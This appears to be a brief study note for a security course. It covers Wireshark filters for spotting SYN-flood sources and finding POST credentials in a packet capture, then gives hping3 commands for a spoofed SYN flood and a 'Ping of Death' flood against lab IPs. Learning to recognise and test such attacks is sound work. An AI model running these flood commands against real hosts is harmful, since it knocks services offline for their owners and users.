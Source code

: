 ## WireShark

### Which machine started DOS attack? DDOS attack happened on which IP? Find out http crediantls from PCAP file?&#x20;

**To find DOS (SYN and ACK) :**&#x20;

* statistic -> IPv4 statistics -> source and destination address
* filter using: `tcp.flags.syn == 1` or `tcp.flags.syn == 1 and tcp.flags.ack == 0` or filter to highest number of request

### Analyze the pcap file and determine the number of machines that were involved in DDOS attack

* statistic -> IPv4 statistic -> source and destination address&#x20;

Or

* View Flood attack on victim via Wireshark | use filter tcp.port=21

Or&#x20;

Find the dos attacker ip using Wireshark

Statistic -> conversion

identified ip , which has flooding server with SYN request.

Or&#x20;

get the statistics of ipv4 -> we can see that Packets B -> A are null, because the're not reply pack.

**To find passwords :**&#x20;

`http.request.method == POST`

To find DOS -> Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port if need.

### SYN DDOS Attack using Hping

`hping3 -S 1.1.1.6 -a 1.1.1.3 -p 22 --flood`

> 1.1.1.6 is target IP
>
> 1.1.1.3 is the spoof IP
>
> 22 is port number.

### POD - Ping of Death Attack

`hping3 -d 65538 -S -p 21 --flood 1.1.1.6`&#x20;

> \-d is data size
>
> \-S is syn packets
>
> \-p is port (you can flood any app with open ports.
